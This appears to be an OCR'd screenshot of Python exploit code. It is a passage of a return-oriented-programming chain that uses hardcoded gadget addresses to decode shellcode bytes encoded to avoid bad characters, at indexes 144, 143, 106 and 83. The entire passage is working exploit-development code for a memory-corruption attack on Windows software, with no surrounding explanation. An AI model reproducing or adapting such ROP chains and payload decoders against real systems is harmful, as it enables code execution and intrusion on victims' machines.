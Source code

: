 ```python
# Decode bad char at index 144
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffff) # offset to bad char at index 144
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 143
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffff) # offset to bad char at index 143
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 106
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffdb) # offset to bad char at index 106
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 83
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffe9) # offset to bad char at index 83
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    

```